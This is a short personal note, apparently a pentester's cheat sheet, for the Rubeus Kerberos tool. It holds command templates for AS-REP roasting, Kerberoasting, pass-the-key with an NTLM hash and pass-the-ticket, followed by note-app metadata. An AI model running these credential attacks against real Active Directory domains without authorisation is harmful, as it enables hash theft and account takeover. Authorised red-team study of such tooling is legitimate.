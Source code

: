 Rubeus

# Source

- https://github.com/GhostPack/Rubeus

Review the opsec notes before compiling the program in visual studio. 

## ASREProasting:

chek for users in the current domain:

- Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

## Kerberoasting:

- Rubeus.exe kerberoast /outfile:<output_TGSs_file>

- Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 

## Pass the key (PTK):

- .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt


## Using the ticket on a Windows target: 

- Rubeus.exe ptt /ticket:<ticket_kirbi_file>

id: 7b66f6713712458dad8fd021280ca0f6
parent_id: 2deea0a2fd65431c90074dad6a2d5de8
created_time: 2020-04-09T03:20:54.342Z
updated_time: 2022-01-25T03:40:11.931Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1586402454342
user_created_time: 2020-04-09T03:20:54.342Z
user_updated_time: 2020-04-09T19:39:49.994Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1